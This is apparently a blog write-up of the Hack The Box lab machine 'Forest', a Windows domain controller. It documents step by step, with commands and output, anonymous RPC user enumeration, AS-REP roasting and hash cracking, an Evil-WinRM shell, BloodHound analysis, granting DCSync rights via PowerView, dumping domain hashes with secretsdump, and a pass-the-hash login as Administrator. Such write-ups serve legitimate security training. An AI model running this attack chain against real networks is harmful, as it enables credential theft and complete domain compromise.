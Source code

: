 ```yaml
---
permalink: /posts/HTB/Forest
title:  "HTB Forest"
author: Luc Kolen
description: "Forest is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB
  - Windows
  - RPC
  - AS-Rep roasting
  - BloodHound
---
```

# 10.10.10.161 - Forest

- [10.10.10.161 - Forest](#101010161---forest)
  - [Open ports](#open-ports)
    - [TCP](#tcp)
    - [UDP](#udp)
  - [Enumerate users via RPC](#enumerate-users-via-rpc)
  - [AS-REP Roasting](#as-rep-roasting)
  - [Evil-WinRM](#evil-winrm)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)

## Open ports

### TCP

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.161
```

|Port|Service|
|---|---|
88/tcp|kerberos-sec
135/tcp|msrpc
139/tcp|netbios-ssn
389/tcp|ldap
445/tcp|microsoft-ds
464/tcp|kpasswd5?
593/tcp|ncacn_http
636/tcp|tcpwrapped
3268/tcp|ldap
3269/tcp|tcpwrapped
5985/tcp|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp|mc-nmf
47001/tcp|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp|msrpc
49665/tcp|msrpc
49666/tcp|msrpc
49667/tcp|msrpc
49671/tcp|msrpc
49676/tcp|ncacn_http
49677/tcp|msrpc
49684/tcp|msrpc
49706/tcp|msrpc

### UDP

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ nmap -vv --reason -Pn -sU -A --top-ports=20 --version-all 10.10.10.161
```

|Port|Service|
|---|---|
53/udp|domain
123/udp|ntp

## Enumerate users via RPC

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
...
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

## AS-REP Roasting

Accounts that don't require pre authentication can be abused to get valid password hashes. GetNPUsers.py can be used to get these hashes.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb/svc-alfresco -no-pass -dc-ip 10.10.10.161
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:413: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if domain is '':
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04
```

Hashcat can be used to crack this hash

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ echo '$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04' > hashes
luc@kali:~/Documents/Cyber-security/HTB/Forest$ hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
...
$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04:s3rvice
...
```

The password for the user `svc-alfresco` is `s3rvice`.

## Evil-WinRM

These credentials can be used to get a shell via `Evil-WinRM` and to read the user.txt file

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
e5e4e47a************************
```

## Privilege escalation

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ cp /opt/BloodHound/Ingestors/SharpHound.ps1 .
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload SharpHound.ps1
Info: Uploading SharpHound.ps1 to C:\Users\svc-alfresco\Desktop\SharpHound.ps1

Data: 1297080 bytes of 1297080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Import-module ./SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/10/2020   4:18 AM          15449 20200610041827_BloodHound.zip
-a----        6/10/2020   4:18 AM          23611 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        6/10/2020   4:16 AM         972811 SharpHound.ps1
-ar---        9/23/2019   2:16 PM             32 user.txt


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> download 20200610041827_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Desktop\20200610041827_BloodHound.zip to 20200610041827_BloodHound.zip

Info: Download successful!
```

Before starting Bloodhound we have to start Neo4j

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ sudo neo4j console
```

![Neo4j login](/assets/images/HTB-Forest/1.a%20neo4j%20login.png)

Now we can start Bloodhound and import the data

```bash
luc@kali:/opt/BloodHound-Binaries$ sudo ./BloodHound --no-sandbox
```

![Bloodhound upload data](/assets/images/HTB-Forest/1.b%20Bloodhound%20upload%20data.png)

![Bloodhound shortest path to domain admin](/assets/images/HTB-Forest/1.c%20Bloodhound%20shortest%20path%20to%20domain%20admin.png)

We've access to svc-alfresco who has GenericAll permissions on the Exchange Windows Permissions group. This allows us to add svc-alfresco to this group. The Exchange Windows Permissions group has WriteDacl permissions on the domain. We can use this to grant DCSync privileges.

We need to use the dev branch of `PowerSploit` to use the `Add-DomainObjectAcl` function in `PowerView.ps1`.

```bash
luc@kali:/opt$ sudo git clone https://github.com/PowerShellMafia/PowerSploit/ -b dev
luc@kali:~/Documents/Cyber-security/HTB/Forest$ cp /opt/PowerSploit/Recon/PowerView.ps1 .
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload PowerView.ps1
Info: Uploading PowerView.ps1 to C:\Users\svc-alfresco\Desktop\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> import-module ./powerview.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net group "Exchange Windows Permissions" svc-alfresco /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $password = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $credentials = New-Object System.Management.Automation.PSCredential ("htb\svc-alfresco", $password)
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Add-DomainObjectAcl -Credential $credentials -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Now that we've DCSync rights we can use `secretsdump.py` to get all hashes and we can use those to get a shell via `Evil-WinRM`.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py svc-alfresco:s3rvice@10.10.10.161
...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
luc@kali:~/Documents/Cyber-security/HTB/Forest$ evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
f048153f************************
```

## TL;DR

- Svc-alfresco doesn't have Kerberos Pre-Authentication enabled allowing us to find the password hash
- Crack the password hash
- BloodHound to find a path from Svc-alfresco to DCSync privileges
- Use those privileges to dump all hashes
- Use administrator hash to log in
